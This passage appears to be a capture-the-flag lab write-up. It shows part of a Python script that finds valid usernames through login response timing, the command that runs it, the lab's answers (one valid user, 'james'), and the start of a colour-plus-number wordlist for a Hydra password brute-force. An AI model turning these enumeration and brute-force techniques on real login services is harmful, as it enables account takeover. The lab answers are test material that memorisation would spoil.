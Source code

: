 ```python
		start = time.time()
		creds = {"username":username,"password":"notimportant"}
		r = requests.post("http://{}/api/user/login".format(host), data=creds)
		done = time.time()
		elapsed = done - start
		if elapsed > 1:
			print("[*] Valid user found: {}".format(username))

if __name__ == '__main__':
	if len(sys.argv) < 2:
		print("Usage: {} /path/usernames/file.txt".format(sys.argv[0]))
		sys.exit(1) 
	main()
```

Let's run the script:

~~~
$ ./bruteforce-user.py /data/src/SecLists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt 
~~~

## #3.2 - How many usernames from the list are valid?

*Hint: If you get this wrong, try testing the usernames manually and seeing how quickly they return. If it's more or less instant, they're not valid.*

Answer: `1`

## #3.3 - What are/is the valid username(s)?

A valid username is `james`

# [Task 4] Attack Passwords

**Next Step**

!["Download"](files/wordlists.zip)

Now that we have a username, we need a password. Because the passwords are hashed with bcrypt and take a noticeable time to verify, bruteforcing with a large wordlist like rockyou is not feasible.
Fortunately, this webapp has password hints!

With the username that we found in the last step, we can retrieve the password hint. From this password hint, we can create a wordlist and (more) efficiently bruteforce the user's password.

**Create your wordlist**

The password hint is "my favourite colour and my favourite number", so we can get a wordlist of colours and a wordlist of digits and combine them using Hashcat Util's Combinator which will give us every combination of the two wordlists. Using this wordlist, we can then use Hydra to attack the login API route and find the password for the user. Download the attached wordlist files, look at them then combine them using hashcat-util's combinator.
Hashcat utils can be downloaded from: https://github.com/hashcat/hashcat-utils/releases
Either add these to your PATH, or run them from the folder.
We want to use the Combinator.bin binary, with colors.txt and numbers.txt as the input. The command for this is (assuming you're in the directory with the binaries and have copiesd the txt files into that directory):
